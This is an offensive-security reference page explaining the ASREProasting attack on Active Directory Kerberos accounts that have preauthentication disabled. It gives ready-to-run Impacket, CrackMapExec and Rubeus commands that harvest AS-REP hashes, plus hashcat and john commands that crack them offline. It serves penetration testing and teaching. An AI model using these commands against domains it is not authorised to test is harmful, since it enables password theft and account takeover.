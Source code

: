 # ASREProast

## Theory

When asking the KDC \(Key Distribution Center\) for a TGT \(Ticket Granting Ticket\), the requesting user needs to send a piece of information \(a timestamp\) encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. This is called Kerberos preauthentication.

The TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Kerberos preauthentication prevents attackers from requesting a TGT for any user, receive the `KRB_AS_REP` message, extract the session key and crack it offline in an attempt to retrieve that user's password.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

## Practice

{% hint style="info" %}
While this attack can be carried out without any prior foothold \(domain user credentials\), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) \(Python\) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/'

# with a password
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt 'DOMAIN/USER:Password'

# with an NT hash
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt
```
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```
{% endtab %}
{% endtabs %}

Depending on the output format used \(`hashcat` or `john`\), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try cracking the hashes.

```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

## Resources

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" caption="" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/" caption="" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx" caption="" %}

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

